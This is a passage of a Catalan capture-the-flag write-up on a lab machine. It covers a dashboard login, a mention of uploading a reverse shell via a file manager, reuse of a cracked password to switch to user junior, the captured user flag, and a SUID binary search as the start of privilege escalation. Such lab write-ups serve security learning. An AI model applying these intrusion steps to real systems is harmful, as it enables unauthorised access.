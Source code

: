 Ara provem d'iniciar sessió des del login.php. Hi ha hagut èxit i ja som dins el dashboard!

![image](https://github.com/user-attachments/assets/da186962-66ac-44f7-8bb1-0ded75aa4570)


Veiem que hi ha una opció que es diu Manage Files des de la qual podrem pujar un fitxer i per tant podríem pujar una reverse shell com hem fet abans:

![image](https://github.com/user-attachments/assets/bd95fa9b-1405-404f-9bd7-92f01d7be329)


Malauradament no és el que busquem, busquem ua forma d'obtenir la flag de l'user.txt. Anirem una altra vegada a la consola a veure si veiem alguna cosa amb l'usuari www-data. Veiem que hi ha un parell d'usuaris que tenen /home, provarem d'iniciar sessió amb un d'ells dos amb la contrasenya que hem trobat al fitxer pass.php en hash:

```
$ su git
Password: iloveyou1
su: Authentication failure
$ su junior
Password: iloveyou1
id
uid=1000(junior) gid=1000(junior) groups=1000(junior)
whoami
junior

```

Amb l'usuari git no hi ha hagut èxit, però sí que n'hi ha hagut amb l'usuari junior !

Ara obtenim la flag de l'usuari junior que és la flag de l'user:

```
cd junior
ls
user.txt
Using OpenVAS.pdf
cat user.txt
c8e304fe35e34aaed749aa022a072f0e`
```

A partir d'aquí haurem d'escalar privilegis per obtenir la password i la flag de l'usuari root. 

El primer que faig és provar el SUID,  a veure si trobem alguna cosa. Fent la cerca amb la comanda ``find / -perm -4000 2>/dev/null`` trobem aquests fitxers amb el bit SUID:

```
find / -perm -4000 2>/dev/null
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/umount
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/newgrp`
```
